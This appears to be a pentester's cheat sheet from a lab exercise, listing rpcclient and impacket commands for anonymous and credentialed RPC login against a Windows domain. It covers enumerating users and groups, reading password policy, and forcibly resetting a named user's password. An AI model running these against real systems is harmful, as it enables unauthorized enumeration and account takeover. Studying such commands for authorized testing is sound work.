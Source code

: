 ###### RPC Anonymous login
```
rpcclient -U '' -N ip
```
### RPC credential login
```
rpcclient -U nagoya-industries/svc_helpdesk 192.168.167.21
```
### RPCClient Enum
```
enumdomusers, queryuser, enumlsgroups builtin, enumdomgroups, setuserinfo, chgpasswd,  setuserinfo2
```
### RPC Client Change User Password
```
setuserinfo2 Christopher.Lewis 23 Pass12!
setuserinfo Christopher.Lewis 23 Pass12!
```
### RPC Client Get domain password info and domain user pass info
```
getdompwinfo
getusrdompwinfo 0x46c
```
### Enum
```
impacket-rpcdump 192.168.219.21 -port 135(135,139,443,445,593)
```
